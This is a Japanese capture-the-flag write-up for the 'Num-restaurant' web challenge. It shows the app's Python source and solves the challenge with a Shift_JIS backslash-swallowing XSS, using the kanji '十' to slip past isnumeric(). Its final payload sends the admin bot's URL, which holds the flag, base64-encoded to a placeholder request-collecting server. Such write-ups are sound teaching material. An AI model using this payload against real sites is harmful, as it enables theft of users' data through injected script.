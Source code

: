 # Num-restaurant🍷

## 問題文
Adminがお腹を空かせています。  
ただ、嫌いなものがあるようです。  
[http://160.251.83.96:31415](http://160.251.83.96:31415/)  
[app.py](files/app.py)  

## 難易度
**medium**  

## 作問にあたって
5C問題問を出したかったのですが、それだけだと簡単すぎるのでpythonの`isnumeric`と組み合わせました。  
ブラウザのバグにより、文字コード判定がおかしくなることでXSSが発生する脆弱性を見つけたことがあり、それが元ネタです。  
懐かしいのもイイですよね...。  

## 解法
サイトにアクセスすると謎のメニューが表示されている。  
![site.png](images/site.png)  
配布されたapp.pyは以下のようだった。  
```python
~~~
def sanitize_price(price):
    if not price.isnumeric():
        return "10000000"
    return price

def sanitize_meal(meal):
    if not meal.isascii():
        return "Kasumi"
    #Is it possible to block XSS?
    return "".join([c for c in meal if ord(c) > 0x1f]).replace("\\", "\\\\").replace("\"", "\\\"").replace("'", "\\'").replace("&", "&amp;").replace("<", "&lt;").replace(">", "&gt;").replace("http", "num")

@app.route("/")
def num_restaurant():
    niku = random.randint(1, 1000000)
    sushi = random.randint(1, 1000000)
    yasai = random.randint(1, 1000000)
    price = request.args.get("price")
    meal = request.args.get("meal")
    if (not price) or (not meal):
        script = ''
    else:
        script = f'''<script>
var text = "￥{sanitize_price(price)}{sanitize_meal(meal)}😋Yummy!!";
alert(text);
</script>
'''
    html = f"""<!DOCTYPE html>
<html lang="ja">
<head>
<title>Num-restaurant</title>
{script}
</head>
<body>
<h1>Welcome to Num-restaurant 🔥</h1>
<a href="?price={niku}&meal=Niku"><p style="font-size:200%;">￥{niku} / Niku🍖</p></a>
<a href="?price={sushi}&meal=Sushi"><p style="font-size:200%;">￥{sushi} / Sushi🍣</p></a>
<a href="?price={yasai}&meal=Yasai"><p style="font-size:200%;">￥{yasai} / Yasai🥗</p></a>
</body>
</html>
"""
    if request.args.get("encoding") == "shift_jis":
        return Response(html, content_type='text/html; charset=shift_jis')
        #No one uses it anymore, but I implemented it because I was born in 1997 and missed it.
    else:
        return Response(html, content_type='text/html; charset=utf-8')
~~~
```
各メニューはリンクとなっていて、`price`、`meal`、`encoding`を指定できるようだ。  
サニタイズは完璧なように見え、`price`は数字、`meal`はASCIIとなっている。  
試しに`?price=1&meal=Niku`にアクセスすると`￥1Niku😋Yummy!!`とalertされた。  
`shift_jis`が怪しく、有名な5C問題XSSが狙えそうだが、サニタイズによりマルチバイト文字が利用できないように見える。  
次にflagの場所を確認すると、以下のように`/admin`よりAdminがクエリに渡しアクセスしている。  
```python
~~
        url = f'http://160.251.83.96:31415?price={urllib.parse.quote(request.form["price"])}\
&meal={urllib.parse.quote(request.form["meal"])}\
&encoding={urllib.parse.quote(request.form["encoding"])}'
        try:
            flag = os.getenv("FLAG")
            cmd = f'chromium-browser --no-sandbox --headless --disable-gpu "{url}&flag={flag}"'
            subprocess.run(cmd, shell=True, timeout=3)
        except:
            return "Admin🥰Yummy!!"
        return "Admin🤤Yucky!!"
~~~
```
アクセスするURLは指定されておりchromiumのExploitでのRCEやOSコマンドインジェクションは狙えない(はず)ため、やはりXSSするしかないようである。  
方針として5C問題を狙い、`";alert(1);//`のサニタイズ結果である`\";alert(1);//`の前方のバックスラッシュを消すことを考える。  
例として``表";alert(1);//``などが考えられる。  
ここで問題となるのが、`meal`にはマルチバイト文字を含めることができない点である。  
よくソースを観察すると`var text = "￥{sanitize_price(price)}{sanitize_meal(meal)}😋Yummy!!";`であるので、`price`にマルチバイト文字を含めても同様の結果が引き起こせそうだ。  
ただし、`price`には`isnumeric`がかかっているため、数字以外は入力できない。  
ここで以下のような`isnumeric`の気持ち悪い仕様を思い出す。  
```python
>>> "12345".isnumeric()
True
>>> "表".isnumeric()
False
>>> "百".isnumeric()
True
```
つまり漢数字が使えるようだ。  
あとは漢数字の中から5C問題に利用できるものを見つければよい。  
結果`十`が利用できることがわかる。  
これにより`price=十`、`meal=";alert(1);//`、`encoding=shift_jis`でXSSが刺さるようになる。  
`http://160.251.83.96:31415?price=十&meal=";alert(1);//&encoding=shift_jis`にアクセスすると確認できる。  
XSSが達成できたので、あとはアクセスしたURLを取得し、リクエストが受け取れるサーバに投げればよい。  
リダイレクトさせようとすると、alertなどゴミがついているのでchromiumではリダイレクトがうまく走らない(firefoxでは無視される)。  
alert関数を書き換えてやればうまく通る。  
`http`が`num`に変換されるのは、スキームを記述しなければよいだけである。  
最終的な送信クエリは以下になる。  
`price`: `十`  
`meal`: ```"-(location.href=`//[リクエストが受け取れるサーバ]?s=`+btoa(location.href));alert=function(){};//```  
`encoding`: `shift_jis`  
※`[リクエストが受け取れるサーバ]`は[https://requestbin.com/](https://requestbin.com/)などを使うとよい。  
これを`/admin`で送信してやる(encoding入力欄がhiddenなので注意)。  
サーバで受け取ったbase64されたデータをデコードし、URLでコードするとflagが得られる。  
![flag.png](images/flag.png)  

## imctf{1_d0n7_w4n7_70_347_5C_4nym0r3}
